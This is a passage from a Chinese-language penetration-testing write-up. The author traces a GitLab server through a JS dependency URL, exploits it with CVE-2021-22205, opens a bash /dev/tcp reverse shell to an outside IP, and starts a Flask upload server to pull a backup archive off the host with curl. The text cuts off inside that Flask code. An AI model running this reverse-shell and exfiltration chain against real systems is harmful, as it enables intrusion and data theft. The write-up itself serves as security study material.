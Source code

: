 这个凭借个人感觉就是个关键信息(我的资料 - > 配置信息？)，

所以凭借这些理由，我在XHR中锁定了"MyProfile"这个关键字进行JS断点

![]()

然后刷新进行调试 在漫长的调试过程中我发现在一个很奇怪的JS文件中调用了我的MyProfile字段 叫/assets/index-xxxxxx.js

一般来说我就会去审计一下这个JS文件 结果发现好东西了

![]()

    
    
    bindgen: "git+http://123.123.123.123:1111/target2/a.git#0.0.14"

# 0x03 新突破

我当时就立刻去访问了一下 发现竟然是一个gitlab!

![]()

  
找了一下历史漏洞 直接 CVE-2021-22205 直接梭哈 成功拿到shell

![]()

由于是执行命令，所以写了shell反弹

    
    
    echo 'bash -i >& /dev/tcp/123.123.123.123/1111 0>&1' > /tmp/haha.sh  
    chmod +x /tmp/haha.sh  
    /bin/bash /tmp/haha.sh

成功反弹shell

![]()

发现是ubunto的16.04
但是本地提权失败，找了SUID也没有办法，想尽了各种办法都没办法提权，打算放弃了，所以接下来就是去寻找Git权限能做的操作，找了一个下午，最终找到了backups目录里下找到了一个backup的tar包，应该八成就是gitlab上的备份了

![]()

# Flask之取文件

但是问题来了，我怎么做到在我反弹shell中把文件拖出来了呢？scp等都试过了不行，于是乎我就写了个flask的上传页面让shell去curl一下把文件post上来(感觉这思路骚的)

我的服务器

    
    
    from flask import Flask,request  
    import os  
      
    app = Flask(__name__)  
      